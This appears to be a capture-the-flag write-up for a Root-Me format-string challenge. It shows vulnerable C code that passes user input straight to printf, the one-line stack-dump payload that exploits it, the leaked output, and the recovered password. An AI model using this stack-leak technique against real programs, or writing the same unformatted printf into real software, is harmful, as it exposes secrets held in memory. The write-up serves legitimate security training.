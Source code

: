 # ELF x86 - Format string bug basic 1
- Point: 15pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Easy<br><br>
![image](https://user-images.githubusercontent.com/48288606/141501790-9851fa6d-9b74-44b1-9960-74e627795010.png)
## Write-up:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
The code open file **.passwd** which includes the password we need, then write it into **buffer** array. <br>
The vulnerability in `printf(argv[1]);`, it execute without **Format specifier".**So we can take advantage of this  to look into the stack to find out the password.
### Solution:
- We'll "brute-force" the buffer space and examine the output value. Print the value with hex code: <br>
`./ch5 $(python -c "print '%08x.'*32")`
- Output:
```
00000020.0804b160.0804853d.00000009.bffffcc5.b7e1b589.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.cfa6f800.bffffb00.00000000.00000000.b7e03f21.b7fc3000.b7fc3000.00000000.b7e03f21.00000002.bffffb94.bffffba0.bffffb24.00000001.
```
- Convert to ASCII text ([HextoText](https://www.rapidtables.com/convert/number/hex-to-ascii.html)):
![image](https://user-images.githubusercontent.com/48288606/141614663-d2edc72c-3b5f-4267-9ec4-aefeb2fcfeb7.png)
As illustrated, a part of string above contains the real password; therefore, we just write these bytes into "big endian" format and convert again to hex.
Pass: Dpa9d6)(Epamd


